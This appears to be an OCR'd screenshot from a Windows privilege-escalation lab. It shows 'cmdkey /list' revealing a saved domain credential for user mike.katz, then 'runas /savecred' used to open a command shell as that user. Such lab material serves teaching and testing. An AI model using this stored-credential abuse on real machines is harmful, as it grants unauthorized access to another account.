 
```
C:\Users\thm-unpriv>cmdkey /list                                                                                                                                                                                                                Currently stored credentials:                                                                                                                                                                                                                       Target: Domain:interactive=WPRIVESC1\mike.katz                                                                          Type: Domain Password                                                                                                   User: WPRIVESC1\mike.katz                                                                                                                                                                                                                                                                                                                                           C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe                                                             Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...  

```